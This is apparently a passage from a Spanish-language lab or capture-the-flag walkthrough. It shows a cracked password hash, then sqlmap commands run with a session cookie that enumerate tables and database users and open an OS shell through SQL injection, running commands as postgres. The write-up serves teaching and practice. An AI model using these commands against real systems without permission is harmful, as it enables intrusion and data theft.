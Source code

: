    2cb42f8734ea607eefed3b70af13bbd3:qwerty789 
    
    ```
    
    Password: **qwerty789** 
    
    Enumeramos la web 
    
    ![image.png](<imagenes/image 63.png>)
    
    Probamos a buscar con SQLMap si es vulenrable a SQLInjections:
    
    Enumeramos las tablas
    
    ```bash
    sqlmap -u 'http://10.129.249.41/dashboard.php?search=1' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1" --tables
    ```
    
    Enumeramos usuarios
    
    ```bash
    ❯ sqlmap -u 'http://10.129.249.41/dashboard.php?search=1' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1" --users
    
    database management system users [1]:
    [*] postgres
    ```
    
    Con “ - - os- shell” podemos ejecutar comandos en la bd y ver los usuarios:
    
    ```bash
    
    sqlmap -u 'http://10.129.249.41/dashboard.php?search=1' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1" --os-shell
    
    os-shell> whoami
    do you want to retrieve the command standard output? [Y/n/a] y
    [18:22:19] [INFO] retrieved: 'postgres'
    ```
    